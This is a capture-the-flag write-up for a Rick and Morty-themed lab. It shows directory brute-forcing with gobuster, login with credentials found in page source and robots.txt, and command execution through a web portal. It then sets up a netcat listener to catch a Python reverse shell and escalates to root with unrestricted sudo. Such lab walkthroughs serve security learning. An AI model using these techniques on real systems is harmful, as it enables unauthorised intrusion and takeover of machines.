

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.
Deploy the virtual machine on this task and explore the web application
What is the first ingredient that Rick needs?
mr. meeseek hairThe first enumeration step I took was to run a nmap scan. In the meanwhile, I browsed the source code of the target website and found the following: username: R1ckRul3s, which implies that there’s going to be some sort of login webpage within the target website.

Through the nmap scan, I confirmed there’s 2 open ports: 1 ssh and 1 http server. The next thing I did was to run a gobuster to brute-force against the target URL and to find directories and files using a wordlist. Also I appended -x option, this means that Gobuster will test each directory/file name with the given extensions.
gobuster dir -u http://10.10.243.38 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,css,txt,db,js,py

gobuster ouput gave me some useful information. Let’s take a look at the robot.txt file first. The robot.txt file only contained Wubbalubbadubdub, which could be a password for the username we found earlier.

To test my theory, I navigated to /login.php url and inputted the username, R1ckRul3s and the password, Wubbalubbadubdub. It turned out they were the correct credentials and the site directed me to /portal.php

I typed ls command then got the following result. Then I tried cat Sup3rS3cretPickl3Ingred.txt but it said “command disabled”, so I navigated to /Sup3rS3cretPickl3Ingred.txt and got mr. meeseek hair, which turned out to be the first ingredient of the task!


What is the second ingredient in Rick’s potion?
1 jerry tearSince we can execute some of the commands on the target website. I think it’s best to try reverse-shell. I visited the pentest monkey to refer to their Reverse Shell Cheat Sheet for Python reverse shell. Make sure to change the IP address to your own and change the python to python3.


Before running the reverse-shell command, I made sure I'm running the netcat in order to capture the shell.
1┌──(kali㉿kali)-[~/Desktop]
2└─$ nc -lvnp 1234
3listening on [any] 1234 ...I was able to caputre the shell after I had executed the python reverse shell command.
1┌──(kali㉿kali)-[~/Desktop]
2└─$ nc -lvnp 1234
3listening on [any] 1234 ...
4connect to [10.6.67.243] from (UNKNOWN) [10.10.242.29] 38160
5/bin/sh: 0: can't access tty; job control turned off
6$ ls
7Sup3rS3cretPickl3Ingred.txt
8assets
9clue.txt
10denied.php
11index.html
12login.php
13portal.php
14robots.txtI remembered there was clue.txt file which showed me a hint for the second ingredient.

I looked around the file system in the shell for a while then I finally found the file named second ingredients!
1$ cd home
2$ ls
3rick
4ubuntu
5$ cd rick
6$ ls
7second ingredients
8$ ls -la
9total 12
10drwxrwxrwx 2 root root 4096 Feb 10 2019 .
11drwxr-xr-x 4 root root 4096 Feb 10 2019 ..
12-rwxrwxrwx 1 root root 13 Feb 10 2019 second ingredients
13$ cat "second ingredients"
141 jerry tearWhat is the last and final ingredient?
fleeb juiceAfter we got the second flag, while still in the shell we captured, I ran sudo -l command to see what commands I’m permitted to run using sudo and it turned out there was no restriction at all.
1$ sudo -l
2Matching Defaults entries for www-data on ip-10-10-242-29:
3 env_reset, mail_badpass,
4 secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
5
6User www-data may run the following commands on ip-10-10-242-29:
7 (ALL) NOPASSWD: ALLBecause I knew that I could run any command with sudo, I went straight to run the sudo bash command. This command runs a new instance of Bash shell with root privileges. This effectively gives you a root shell. Once I got the root priviliege, the rest was easy. I navigated to the root folder and there was the third ingredients inside it.
1proc
2root
3run
4sbin
5snap
6srv
7sys
8tmp
9usr
10var
11vmlinuz
12vmlinuz.old
13cd root
14ls
153rd.txt
16snap
17cat 3rd.txt
183rd ingredients: fleeb juiceI got the last ingredients for this task!